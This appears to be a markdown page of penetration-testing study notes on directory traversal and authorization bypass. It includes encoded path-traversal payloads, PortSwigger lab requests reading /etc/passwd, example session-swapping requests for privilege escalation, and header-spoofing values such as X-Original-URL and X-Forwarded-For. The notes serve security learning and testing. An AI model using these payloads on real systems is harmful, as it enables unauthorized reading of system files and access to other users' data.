





# Authorization Testing

## Directory traversal File Include

### Techniques

1. Input Vector Enumeration 
* Are there request parameters which could be used for file-related operations?
* Are there unusual file extensions?
* Are there interesting variable names?
	+ **http://example.com/getUserProfile.jsp?item=ikki.html >>**
	  `item=ikki.html >> ikki >> inject`
	+ **http://example.com/index.php?file=content >>**
	  `file=content >> content >> inject`
	+ **http://example.com/main.cgi?home=index.htm >>**
	  `home=index.htm >> index >> inject`

* In Cookie
	+ Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower 
	`>> TEMPLATE=flower >> flower >> inject`

	+ Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

		`>>PSTYLE=GreenDotRed >> GreenDotRed >> inject`


* Unix like OS: /
* Windows : `<drive letter>: , /`
* MAC OS : `<drive letter>: , :`
* URL encoding and double URL encoding :
```urlencode
%2e%2e%2f => ../ 
%2e%2e/ => ../
..%2f => ../
%2e%2e%5c => ..\
%2e%2e\ => ..\
..%5c => ..\
%252e%252e%255c => ..\
```
* Unicode/UTF-8 Encoding
```UTF
..%c0%af => ../
..%c1%9c => ..\
```
#### Practrice in PortSwigger Lab

 ```http
 GET /image?filename=../../../etc/passwd HTTP/1.1
 ```

  
 
 ```http
 GET /image?filename=....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd HTTP/1.1
 ```


```http
GET /image?filename=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd HTTP/1.1
```


```http
GET /image?filename=/var/www/images/../../../../../etc/passwd HTTP/1.1
```


```http
GET /image?filename=/../../../../../../../../../../../etc/passwd.png HTTP/1.1
```



## Testing for Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema 

1. Register or generate two users with identical privileges.
2. Establish and keep two different sessions active (one for each user).
3. For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4. An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.
5. **Use auth analyze in burpsuite**

#### Examle 
With funtion `viewSettings`
**Request**
 ```http
 POST /account/viewSettings HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=USER_SESSION

username=example_user
```
**Response**
```json
HTTP1.1 200 OK
[other HTTP headers]

{
  "username": "example_user",
  "email": "example@email.com",
  "address": "Example Address"
}
```
Try and execute that request with the same username parameter:
```http
POST /account/viewCCpincode HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=ATTACKER_SESSION

username=example_user
```
### Vertical Bypassing Authorization Schema (ttacker obtains a role higher than their own)
1. Register a user.
2. Establish and maintain two different sessions based on the two different roles.
3. For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4. An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.
5. **Use auth analyze in burpsuite**


#### Examle 
With funtion `delteEvent`
**Request**
```http
POST /account/deleteEvent HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=ADMINISTRATOR_USER_SESSION

EventID=1000001
```
Response**
```json
HTTP/1.1 200 OK
[other HTTP headers]

{"message": "Event was deleted"}
```
Try and execute the same request:
```http
POST /account/deleteEvent HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=CUSTOMER_USER_SESSION

EventID=1000002
```
### Consider Administrator Page
### Access to Administrative Functions
### Special Request Header Handling
Send a Normal Request without Any X-Original-Url or X-Rewrite-Url Header.
```http 
GET / HTTP/1.1
Host: www.example.com
[...]
```
 Send a Request with an X-Original-Url Header Pointing to a Non-Existing Resource.
 ```http
 GET / HTTP/1.1
Host: www.example.com
X-Original-URL: /myprecious
[...]
```
Send a Request with an X-Rewrite-Url Header Pointing to a Non-Existing Resource.
```http 
GET / HTTP/1.1
Host: www.example.com
X-Rewrite-URL: /myprecious
[...]
```

### Other Headers to Consider
* Headers:
	- X-Forwarded-For
	- X-Forward-For
	- X-Remote-IP
	- X-Originating-IP
	- X-Remote-Addr
	- X-Client-IP
* Values
	- 127.0.0.1 (or anything in the 127.0.0.0/8 or ::1/128 address spaces)
	- localhost
	- Any RFC1918 address:
		+ 10.0.0.0/8
		+ 172.16.0.0/12
		+ 192.168.0.0/16
		+ Link local addresses: 169.254.0.0/16